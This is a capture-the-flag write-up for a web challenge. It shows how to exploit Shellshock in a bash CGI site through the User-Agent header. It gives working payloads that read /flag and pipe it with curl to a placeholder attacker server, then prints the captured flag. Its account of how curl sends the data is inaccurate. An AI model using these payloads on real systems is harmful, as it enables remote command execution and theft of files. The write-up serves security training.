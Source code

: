 #SimpleWeb

**Category:** Web
**Points:** 40

**Description:**

You know i am a little noob in web developing. so i just started to create a simple web. But yesterday this crazy friend of mine shocked me to death and said he just hacked my webpage and can read all of my files. VOW! how the hell he did that. can you check it out. for example can you see what is in /flag to prove me he is right.

##SimpleWeb-Solution

The challenge is created using bash and cgi. It is very simple and and contains nothing just a bunch of static pages. 
There is a hint is description of challenge that says: ```... But yesterday this crazy friend of mine shocked me to death ....``` and will remind of ShellShock vulnerability that could lead to code execution on server running bash.

One of the methods to exploit using shellshock, is setting shellshock magic code ```() { :; };``` in user-agent field of http-request-header.
So let's test it. 

fire up something like tamper-data or burpsuite and set code below in user-agent:

```
() { :; } ; /bin/bash -c "cat /flag"
```

And we will get a error result and will not see was is in ```/flag``` file. running some other commands, we can see that using ```ping``` will give us a huge hint:

```
() { :; } ; /bin/bash -c "ping -c 10 google.com"
```

By executing this command, page will be loaded after 10 seconds. So we definetly sure that this is ShellShock vulnerability and flag is only accessible by exploiting it.
There is no way to see the contents of ```/flag``` in the response, so we should find a way to read flag.

Magic Solution
------
What if we read ```/flag``` file, but doesn't show it's content in the response? What if we send this result back to our server.
YES.

####The solution is to read /flag, then send that result to our server using something like curl and on our server setup wireshark or read access.log file.

By using this command and firing up wireshark on our server, we could get the flag:

```
() { :; } ; /bin/bash -c "cat /flag | curl -X GET -d @- http://<our server address>"
```

This command will read contents of ```/flag``` and will pipe it into curl. curl will use this value and will send  a ```GET``` request to our server like this:

```
curl -X GET http://<our server address>/<contents of "/flag">
```

On the other hand if we check our server log-files or wireshark/tshark output, we will get something like below:

```
Q2hldCBSYW1leSBpcyB0aGUgbWFpbnRhaW5lciBvZiBTaGVsbFNob2NrIHZ1bG5lcmFiaWxpdHkuIGZsYWcgaXMgU2gzbGw1aDBDS180MW0wNTdfayExMTNkX0I0NUhISAo=
```

it's obvious that it is base64-encoded. decoding it will give us:

```
Chet Ramey is the maintainer of ShellShock vulnerability. flag is Sh3ll5h0CK_41m057_k!113d_B45HHH
```

And the flag is: 
**Sh3ll5h0CK_41m057_k!113d_B45HHH


